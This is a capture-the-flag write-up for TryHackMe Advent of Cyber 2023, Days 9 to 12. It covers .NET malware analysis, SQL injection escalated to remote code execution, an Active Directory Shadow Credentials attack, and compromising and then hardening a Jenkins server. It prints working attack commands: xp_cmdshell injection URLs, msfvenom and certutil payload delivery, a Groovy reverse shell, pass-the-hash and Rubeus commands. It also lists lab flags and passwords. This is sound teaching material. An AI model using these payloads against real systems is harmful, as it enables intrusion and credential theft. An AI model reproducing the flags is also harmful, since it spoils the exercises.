Cover Image by [BiZkettE1](https://www.freepik.com/free-vector/modern-business-background-with-geometric-shapes_5287944.htm) on Freepik

[TryHackMe \| Advent of Cyber 2023](https://tryhackme.com/room/adventofcyber2023)

It is strongly recommended to go through the reading material that accompanies each task before going through this guide. This article will only include the content necessary to answer the questions.

## \[Day 9\] She sells C# shells by the C2shore

### Learning Objectives

- The foundations of analyzing malware samples safely
- The fundamentals of .NET binaries
- The dnSpy tool for decompiling malware samples written in .NET
- Building an essential methodology for analyzing malware source code

### Questions

**1. What HTTP User-Agent was used by the malware for its connection requests to the C2 server?**

From the write-up, we know that the `PostIt()` method is used by the malware for connecting to the C2 server and submitting the output of the commands executed on the target machine.


> Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15

**2. What is the HTTP method used to submit the command execution output?**

In the `PostIt()` method we can see the HTTP method that is used

> POST

**3. What key is used by the malware to encrypt or decrypt the C2 data?**

The code related to encryption and decryption will be present in the `Encryptor()` and `Decryptor()` methods.




> youcanthackthissupersecurec2keys

**4. What is the first HTTP URL used by the malware?**

Since this question deals with the flow of malware we need to look at the `Main()` method which houses the code that is executed by the malware.



The URL that is accessed on line 9 is formed by joining line 6 and line 7.

> http://mcgreedysecretc2.thm/reg

**5. How many seconds is the hardcoded value used by the sleep function?**

The time mentioned in the code is 1500 milliseconds which equals 15 seconds.



> 15

**6. What is the C2 command the attacker uses to execute commands via cmd.exe?**

The `ExecuteCommand()` method is used to execute commands on the target. In the `Main()` method we need to look for the code that calls `ExecuteCommand()`. 

Towards the bottom of the `Main()` method we can see the logic that is used for executing commands on the target and transporting the output back to the C2 server. The `shell` command is issued by the attacker to execute commands on the target.


> shell

**7. What is the domain used by the malware to download another binary?**

When the attacker issues the `implant` command the malware downloads an additional executable to be installed on the target. This executable is downloaded from a domain that is not the same as the C2 server.



> stash.mcgreedy.thm

## \[Day 10\] Inject the Halls with EXEC Queries

### Learning Objectives

- Learn to understand and identify SQL injection vulnerabilities
- Exploit stacked queries to turn SQL injection into remote code execution
- Help Elf McRed restore the Best Festival website and save its reputation!

### Questions

**1. Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?**


On clicking the "Gift Search" option in the navbar we are scrolled down to the following section:


On clicking the "Start My Gift Search" we are taken to a new page with a Search form:


> /giftsearch.php

**2. Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?**

On selecting the gift type and budget and submitting the form we are presented with Items that fall into the provided range.


We can see that the search options are sent to the backend as URL parameters. We can change the value of the age parameter with `'` to see if the site is vulnerable to SQL injection.


We get an error from the database. This error also shows us that the site is using MS SQL Server. The version of the driver is also present in the data returned.

> ODBC Driver 17 for SQL Server

**3. Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?**

On changing the URL parameters with `' 1=1 --` we get all the items that are saved in the database. If we scroll to the bottom of the list we can get the flag.



> THM{a4ffc901c27fb89efe3c31642ece4447}

**4. What flag is in the note file Gr33dstr left behind on the system?**

To find the next flag we need to establish a reverse shell into the server that is running the SQL server. One way to run system commands using MS SQL Server is using the `xp_cmdshell` stored procedure. First, we need to enable the option to use this stored procedure.

```
http://10.10.179.128/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```


Next, we need to generate a reverse shell payload that can be executed on the target system. `msfvenom` can be used to generate the required payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.165.223 LPORT=4444 -f exe -o reverse.exe
```


Once the payload is generated we need to host the payload on a web server. The target will download the payload from the server. This can be done using Python.

```bash
python3 -m http.server 8000
```

Now we can use the `xp_cmdshell` stored procedure to execute a system command on the vulnerable system to download the payload.

```
http://10.10.179.128/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.165.223:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```




Once the executable is downloaded we need to set up a listener which is going to be used by the payload to connect back to us.

```bash
nc -nvlp 4444
```

Finally, using the stored procedure we can execute the payload. If done correctly this should give us access to the remote system.

```
http://10.10.179.128/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```


The note file with the flag is located on the Desktop of the Administrator.



> THM{b06674fedd8dfc28ca75176d3d51409e}

**5. What is the flag you receive on the homepage after restoring the website?**

The note from the previous question tells us to run the `restore_website.bat` script to fix the website.



Now we can refresh the website to see the restored webpage.



> THM{4cbc043631e322450bc55b42c}

## \[Day 11\] Jingle Bells, Shadow Spells

### Learning Objectives  

- Understanding Active Directory
- Introduction to Windows Hello for Business
- Prerequisites for exploiting GenericWrite privilege
- How the "Shadow Credentials" attack works
- How to exploit the vulnerability

### Walkthrough

We need to find out if HR has write permissions for any user account. If such a user is present HR can overwrite their public key that is stored in the Domain Controller (DC). This key is used for encrypting all the communication that occurs between the user and the DC. Once the key is replaced a fraudulent authentication token can generated for authenticating with the server. Once authenticated the NTLM hash of the users' password can be retrieved. The hash can then be used to authenticate with the server and gain access to the account.

User accounts that can be modified by HR can be retrieved by using `PowerView`.

```powershell
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```



```powershell
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" }
```



Once we have a vulnerable user we can use `Whisper` to simulate the enrollment of a new device for the user. The enrollment will cause the value of the public key to be replaced with a fraudulent one. The tool also generates a certificate for us which is necessary for authenticating with Kerberos.

```powershell
.\Whisker.exe add /target:vansprinkles
```
 


The output of the tool contains the command that can be used with `Rubeus` for interacting with Kerberos and getting a TGT (Ticket Granting Ticket). The TGT is used as the session token to prevent repeatedly prompting the user for authentication. Along with the session token, we can also get the NTLM hash of the users' password.

**Note**: Add a `.\` before the tool name when copy-pasting the command that was generated by `Whisker`

```powershell
.\Rubeus.exe asktgt /user:vansprinkles /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH... /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```



Once the session for the user has been generated using the NTLM hash we can use a pass-the-hash attack to log into the user's device. 

The next step needs to be performed from the Linux VM (Attack Box).

```bash
evil-winrm -i 10.10.165.189 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```



If the command was successful we should get access into the system.

### Questions

**1. What is the hash of the vulnerable user?**

> 03E805D8A8C5AA435FB48832DAD620E3

**2. What is the content of flag.txt on the Administrator Desktop?**

We can navigate into the Desktop of the Administrator to look for the flag.


> THM{XMAS_IS_SAFE}

The directory also contains some `chatlog_files` which is a hint for the AOC 2023 Side Quests challenge.

## \[Day 12\] Sleighing Threats, One Layer at a Time

### Learning Objectives

- Defense in Depth
- Basic Endpoint Hardening
- Simple Boot2Root Methodology

### Walkthrough

In this challenge, we will be trying to break into a system, find its weaknesses and then use the Defense in Depth framework to patch the discovered vulnerabilities.

The target system is running Jenkins. We can connect to its UI using the web browser.

```
http://10.10.165.84:8080
```


We see that the Jenkins portal is accessible without any authentication prompt. Jenkins allows admins to run scripts for troubleshooting and debugging purposes. Let's try to use these options to get a connection to the target system.


```groovy
String host="10.10.137.59";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



Before running the script we have to set up a listener to catch the incoming connection.

```bash
nc -nvlp 6996
```



If we navigate to the `/opt/scripts` directory we notice a `backup.sh` script. This script contains the credentials for user `tracy`. The backup script uses SCP. This means that SSH will also be enabled on the system.

```bash
cd /opt/scripts
cat backup.sh
```


> Username: tracy  
> Password: 13_1n_33

Connecting to the Jenkins system using SSH

```bash
ssh tracy@10.10.165.84
```


```bash
sudo -l
```



We can see that Tracy can run all commands on the system as admin. We can gain root access directly using `sudo su` without even exploiting any vulnerability.

```bash
sudo su
```



Now that we have managed to gain root access let's try to fix all the misconfigurations we used to gain root access.

First, we can remove Tracy from the `sudo` group. This way privileged commands cannot be executed by the user.

**Note**: Create a new SSH session to test all the changes that are made. No not close the root session as it's required to make all the changes.

```bash
sudo deluser tracy sudo
```




Next, let us change the SSH configuration to prevent password-based logins. The changes need to be made in the `/etc/ssh/sshd_config` file. Once the changes are made restart the SSH service.

**Note**: `ssh_config` and `sshd_config` are different files

```bash
sudo nano /etc/ssh/sshd_config
sudo systemctl restart ssh
```





Lastly, let us fix the Jenkins config to prevent unauthorized users from accessing the admin portal. The changes need to be made in the `config.xml.bak` file in the `/var/lib/jenkins` directory. Once the changes are made we replace the original config with the new config.



```bash
cd /var/lib/jenkins
nano config.xml.bak

rm config.xml
cp config.xml.bak config.xml
sudo systemctl restart jenkins
```


### Questions

**1. What is the default port for Jenkins?**

> 8080

**2. What is the password of the user tracy?**

The password can be found in the `backup.sh` that was discovered in the `/opt/scripts` directory.

> 13_1n_33

**3. What's the root flag?**

The flag is located in the home directory of the root user.



> ezRo0tW1thoutDiD

**4. What is the error message when you log in as tracy again and try `sudo -l` after its removal from the sudoers group?**


> Sorry, user tracy may not run sudo on Jenkins.

**5. What's the SSH flag?**

The flag is located in the `sshd_config` file below the line we changed to disable password authentication.



> Ne3d2SecureTh1sSecureSh31l

**6. What's the Jenkins flag?**

The flag is located in the Jenkins configuration file (`config.xml)


> FullTrust_has_n0_Place1nS3cur1ty